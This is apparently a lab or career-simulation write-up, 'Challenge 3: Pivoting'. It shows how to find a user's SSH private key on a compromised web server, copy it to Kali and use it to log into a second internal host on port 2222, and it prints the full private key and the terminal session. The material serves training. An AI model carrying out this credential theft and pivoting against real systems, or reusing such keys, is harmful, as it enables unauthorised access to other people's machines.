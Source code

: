 # **Challenge 3: Pivoting**
!!! note ""
## **Procedure:**

Now that you can run commands on the web server, we want to find a way to pivot into the other Linux machine on the network.   

- Search the webserver for SSH keys you can copy. 
Hint: Where do each users' SSH keys tend to live? 
- Once you've found a key to test, copy it to your Kali machine.
Note: There are some tricky ways to copy the file directly, but this is a great place to keep it simple. Copy and paste the contents of the key from one window to another.
- Use the key to connect from your Kali machine to the other Linux server you found earlier, using the non-standard port number revealed in your scans.

**Hint**: How do you use a specific key file with SSH? How do you define a custom port to connect to? 

**Hint**: You will need to know which username to try and connect with. Which user did the stolen key originally belong to? 

**Note**: Some SSH clients will refuse to use a key with file permissions that are too open. You will need to ensure ONLY the key file owner has read, write, or execute permissions. 

## **Solution:**

### Search the webserver for **[SSH keys](https://www.ssh.com/academy/ssh-keys)**

![alt text](images/Pasted%20image%2020240507230632.png)


### Accesing the home folder of the user alice-devops

![alt text](images/Pasted%20image%2020240507230800.png)

### Accesing the .ssh folder 

![alt text](images/Pasted%20image%2020240507230921.png)

### Accesing the **[id_rsa.pem](https://www.howtogeek.com/devops/what-is-a-pem-file-and-how-do-you-use-it/)**

![alt text](images/Pasted%20image%2020240507231043.png)



### Copy the SSH key to the Kali machine

```bash linenums="1" hl_lines="2 54"
┌──(kali㉿kali)-[~]
└─$ cat alice_key.pem 
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ ll
total 40
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 DCV-Storage
drwxr-xr-x 2 kali kali 4096 May  8 02:41 Desktop
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Documents
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Downloads
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Music
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Pictures
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Public
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Templates
drwxr-xr-x 2 kali kali 4096 Nov 23  2022 Videos
-rw------- 1 kali kali 2602 May  8 01:48 alice_key.pem
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ 
```

### Connect from your Kali machine to the other Linux server (port 2222/SSH)

```bash linenums="1" hl_lines="2 5 30"
┌──(kali㉿kali)-[~]
└─$ chmod 600 alice_key.pem #Providing permissions
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ ssh ssh -i alice_key.pem alice-devops@172.31.44.198 -p 2222
Welcome to Ubuntu 22.04 LTS (GNU/Linux 6.5.0-1018-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed May  8 03:26:25 UTC 2024

  System load:  0.13037109375      Processes:             200
  Usage of /:   33.7% of 19.20GB   Users logged in:       0
  Memory usage: 36%                IPv4 address for eth0: 172.31.44.198
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

257 updates can be applied immediately.
11 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May  8 01:50:31 2024 from 172.31.39.126
alice-devops@ubuntu22:~$ 
```

![alt text](images/Pasted%20image%2020240507232829.png)

<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>



!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_2/" class="md-button md-button--primary">Previous: Challenge 2</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/challenge_4/" class="md-button md-button--primary">Next: Challenge 4</a>
</div>